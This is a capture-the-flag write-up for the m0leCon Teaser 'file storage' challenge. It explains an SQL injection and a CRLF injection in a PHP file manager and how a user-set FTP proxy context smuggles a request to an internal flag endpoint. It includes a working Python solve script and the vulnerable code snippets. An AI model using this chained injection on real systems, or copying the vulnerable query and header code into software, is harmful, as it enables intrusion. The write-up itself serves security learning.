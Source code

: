 ```yaml
---

title: "nday: file storage - m0leCon Teaser CTF"
date: 11 September 2024
category: CRLF,SQLI
ctf: m0leCon Teaser CTF

---
```


This challenge is from the `m0leCon Teaser CTF`. It was an interesting but relatively easy challenge, so the write-up will be brief. The objective was to exploit `SQL Injection` (SQLi) and `CRLF` (Carriage Return Line Feed) vulnerabilities to retrieve the flag from an internal server. Two services were running: an FTP server and a Node.js application, alongside a PHP server running on Nginx.

---

## Services

### FTP
```dockerfile
COPY vsftpd.conf /etc/vsftpd/vsftpd.conf
```

The FTP service uses [`vsftpd`](https://en.wikipedia.org/wiki/Vsftpd), a popular FTP server for Linux.

### Node.js

```javascript
app.post("/flag", (req, res) => {
  if (!!req.headers["x-get-flag"]) {
    res.send(process.env.FLAG || "ptm{REDACTED}");
  } else {
    res.send("nope");
  }
});
```

Our goal is to send a POST request to the Node.js application with an `x-get-flag` header. In addition, there is another route, `/create-user`, which creates a new user.

### PHP

- You can sign up by completing a Proof of Work (PoW).
- You can upload and download files.

#### *The server connects to the FTP service using `fopen`*:

```php
$ftp = @fopen("ftp://{$_SESSION['user']}:{$_SESSION['password']}@ftp/$filename", 'r', false, $context);
```

This retrieves the file and sends it as a response.

---

## Vulnerabilities

### SQLi
#### In `php/www/components/file_manager.php`:

```php
$stmt = $database->prepare("INSERT INTO files (owner, filename, size) VALUES (:owner, '$filename', :size)");
```

Here, the application directly incorporates user-specified values into the SQL query, allowing us to inject in filename.

### CRLF
#### In the same file, there is a CRLF injection vulnerability:

```php
header('Content-Disposition: attachment; filename="' . urlencode($filename) . '"');
```

The same `filename` parameter introduces another vulnerability, allowing us to exploit CRLF injection.

---

## Exploit

```php
// @/php/www/components/file_manager.php
$opts = ['ftp' => $_SESSION['settings']];
$context = stream_context_create($opts);

// @/php/www/components/index.php
if (isset($_POST['settings'])) {
    $data = json_decode($_POST['settings'], true);
    if (!is_array($data)) {
        die;
    }
    $_SESSION['settings'] = $data;
}
```

The application uses session settings to create a stream context, which is user-controlled. PHP's FTP stream context allows a [`proxy`](https://www.php.net/manual/en/context.ftp.php) to be passed. By using this, we can send an HTTP request via CRLF injection.

---

### Solve Script
#### **Here is my solve script:**

```python
import requests
import json
import urllib.parse

url = "http://localhost:8080"
name = "x HTTP/1.1\r\nHost: ftp\r\n\r\n\r\nPOST /flag HTTP/1.1\r\nx-get-flag:"
data = f"'||(SELECT x'{name.encode().hex()}')||'"

file = {'file': (data, "")}
sess = {"PHPSESSID": "21n3bc7elm25b7r7lml2r7neq1"}

if requests.post(url, files=file, cookies=sess).status_code == 200:
    conf = {'settings': json.dumps({'proxy': 'tcp://ftp:3000'})}
    if requests.post(url, data=conf, cookies=sess).status_code == 200:
        res = requests.get(url + f"?filename={urllib.parse.quote(name)}", cookies=sess)
        print(f"Flag: {res.content}")
else:
    print("Failed!")
```

---
